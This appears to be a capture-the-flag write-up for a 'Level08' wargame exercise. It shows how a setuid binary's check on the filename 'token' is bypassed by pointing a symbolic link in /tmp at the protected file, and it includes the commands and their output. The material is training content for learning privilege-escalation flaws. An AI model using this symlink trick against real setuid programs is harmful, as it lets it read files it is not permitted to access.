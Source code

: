 # Level08
## Step by step
### 1. Locate files in `level08` home directory
  ```bash
  > ls
  -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
  -rw-------  1 flag08  flag08    26 Mar  5  2016 token
  ```
---

### 2. Analyze the `level08` binary
The `level08` binary takes a file path as an argument. If the file path is not `token`, it prints the content of the specified file to stdout.

However, we want to read the `token` file, which is restricted by the program's logic.

---

### 3. Create a symbolic link to bypass the restriction
We can create a symbolic link pointing to the `token` file, using a different name that is not restricted by the binary's logic.

  ```bash
  > ln -s $PWD/token /tmp/test
  > ls
  lrwxrwxrwx 1 level08 level08 24 Jan 19 17:19 /tmp/test -> /home/user/level08/token
  > ./level08 /tmp/test
  XXX
  ```
